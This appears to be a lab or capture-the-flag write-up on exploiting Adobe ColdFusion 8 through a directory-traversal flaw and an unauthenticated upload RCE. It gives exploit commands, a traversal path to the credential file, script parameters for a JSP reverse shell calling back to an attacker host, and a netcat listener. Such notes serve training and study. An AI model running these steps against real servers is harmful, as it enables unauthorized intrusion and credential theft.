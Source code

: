 
### **Target Overview**

- _Target_: Adobe ColdFusion 8
- _Discovery_: `/CFIDE/administrator/index.cfm` confirmed ColdFusion 8 Admin panel
- _Relevant CVEs_:
    - **CVE-2010-2861** – Directory Traversal
    - **CVE-2009-2265** – Unauthenticated Remote Code Execution (RCE)

---

### **Using Searchsploit**
```bash
searchsploit adobe coldfusion
```

**Notable Results**:

- _Directory Traversal_: `/multiple/remote/14641.py`
- _ColdFusion 8 RCE_: `/cfm/webapps/50057.py`

---

### **Directory Traversal – CVE-2010-2861**

- Affects ColdFusion <= 9.0.1
- Exploitable via `locale` parameter in ColdFusion Admin `.cfm` files:
    - `CFIDE/administrator/settings/mappings.cfm`
    - `CFIDE/wizards/common/_logintowizard.cfm`
    - `logging/settings.cfm`
    - `datasources/index.cfm`
    - `j2eepackaging/editarchive.cfm`

**Example Exploit Usage**:
```bash
python2 14641.py <host> <port> <file_path>
```

**Goal**: Read `password.properties` to obtain ColdFusion encrypted credentials.
```bash
python2 14641.py 10.129.204.230 8500 "../../../../../../../../ColdFusion8/lib/password.properties"
```

**Output Example**:
```pgsql
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
encrypted=true
```


---

### **Unauthenticated RCE – CVE-2009-2265**

- Affects ColdFusion <= 8.0.1
- Exploitable via FCKeditor file upload endpoint:
```http
/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm
```

**Upload Exploit Script**: `50057.py`
- Uploads `.jsp` reverse shell
- Triggers payload to obtain shell

**Modify Script Parameters**:
```python
lhost = '10.10.14.55'
lport = 4444
rhost = "10.129.247.30"
rport = 8500
```

**Execute Exploit**:
```bash
python3 50057.py
```

**Expected Output**:

- Payload uploaded and executed
- Shell received on Netcat listener
```bash
nc -lvnp 4444
```

---

### **Post-Exploitation - Reverse Shell**

**Shell Access Gained**:
```bash
Microsoft Windows [Version 6.1.7600]
C:\ColdFusion8\runtime\bin> dir
```
- Full access to ColdFusion server
- Able to navigate and inspect application/runtime directories


---

### **Summary**

- _ColdFusion 8_ vulnerable to **directory traversal (CVE-2010-2861)** and **unauthenticated RCE (CVE-2009-2265)**
- _Searchsploit_ used to identify and retrieve PoCs
- _RCE exploit_ used to upload and execute a reverse shell payload
- Successful shell confirmed ColdFusion runtime access on target
